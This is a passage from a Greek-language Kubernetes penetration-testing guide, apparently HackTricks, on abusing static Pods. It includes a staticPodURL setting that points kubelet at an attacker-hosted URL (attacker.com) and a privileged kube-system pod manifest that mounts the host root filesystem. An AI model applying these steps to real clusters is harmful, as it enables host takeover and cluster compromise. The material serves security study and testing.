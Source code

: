 Συνεπώς, τα στατικά Pods είναι πάντα **δεμένα με ένα Kubelet** σε ένα συγκεκριμένο κόμβο.

Το **kubelet προσπαθεί αυτόματα να δημιουργήσει έναν καθρέφτη Pod στον διακομιστή API του Kubernetes** για κάθε στατικό Pod. Αυτό σημαίνει ότι τα Pods που εκτελούνται σε έναν κόμβο είναι ορατά στον διακομιστή API, αλλά δεν μπορούν να ελεγχθούν από εκεί. Τα ονόματα των Pods θα έχουν ως κατάληξη το όνομα του κόμβου με προηγούμενο παύλα.

{% hint style="danger" %}
Το **`spec` ενός στατικού Pod δεν μπορεί να αναφέρεται σε άλλα αντικείμενα του API** (π.χ., ServiceAccount, ConfigMap, Secret, κλπ.). Έτσι **δεν μπορείτε να εκμεταλλευτείτε αυτήν τη συμπεριφορά για να ξεκινήσετε ένα pod με ένα αυθαίρετο serviceAccount** στον τρέχοντα κόμβο για να διακινδυνεύσετε το cluster. Ωστόσο, μπορείτε να χρησιμοποιήσετε αυτό για να εκτελέσετε pods σε διαφορετικά namespaces (σε περίπτωση που αυτό είναι χρήσιμο για κάποιο λόγο).
{% endhint %}

Αν βρίσκεστε μέσα στον κόμβο του οικοδεσπότη, μπορείτε να τον κάνετε να δημιουργήσει ένα **στατικό pod μέσα στον εαυτό του**. Αυτό είναι πολύ χρήσιμο επειδή μπορεί να σας επιτρέψει να **δημιουργήσετε ένα pod σε ένα διαφορετικό namespace** όπως το **kube-system**.

Για να δημιουργήσετε ένα στατικό pod, η [**τεκμηρίωση είναι μεγάλη βοήθεια**](https://kubernetes.io/docs/tasks/configure-pod-container/static-pod/). Βασικά χρειάζεστε 2 πράγματα:

* Ρύθμιση της παραμέτρου **`--pod-manifest-path=/etc/kubernetes/manifests`** στην **υπηρεσία kubelet**, ή στην **διαμόρφωση kubelet** ([**staticPodPath**](https://kubernetes.io/docs/reference/config-api/kubelet-config.v1beta1/#kubelet-config-k8s-io-v1beta1-KubeletConfiguration)) και επανεκκίνηση της υπηρεσίας
* Δημιουργία του ορισμού στο **ορισμό pod** στο **`/etc/kubernetes/manifests`**

**Ένας πιο κρυφός τρόπος θα ήταν:**

* Τροποποιήστε την παράμετρο **`staticPodURL`** από το αρχείο διαμόρφωσης του **kubelet** και ορίστε κάτι σαν `staticPodURL: http://attacker.com:8765/pod.yaml`. Αυτό θα κάνει τη διαδικασία kubelet να δημιουργήσει ένα **στατικό pod** παίρνοντας τη **διαμόρφωση από τον καθορισμένο URL**.

**Παράδειγμα** της **διαμόρφωσης pod** για τη δημιουργία ενός προνομιούχου pod στο **kube-system** που προέρχεται από [**εδώ**](https://research.nccgroup.com/2020/02/12/command-and-kubectl-talk-follow-up/):
```yaml
apiVersion: v1
kind: Pod
metadata:
name: bad-priv2
namespace: kube-system
spec:
containers:
- name: bad
hostPID: true
image: gcr.io/shmoocon-talk-hacking/brick
stdin: true
tty: true
imagePullPolicy: IfNotPresent
volumeMounts:
- mountPath: /chroot
name: host
securityContext:
privileged: true
volumes:
- name: host
hostPath:
path: /
type: Directory
```
### Διαγραφή pods + μη προγραμματισμός κόμβων

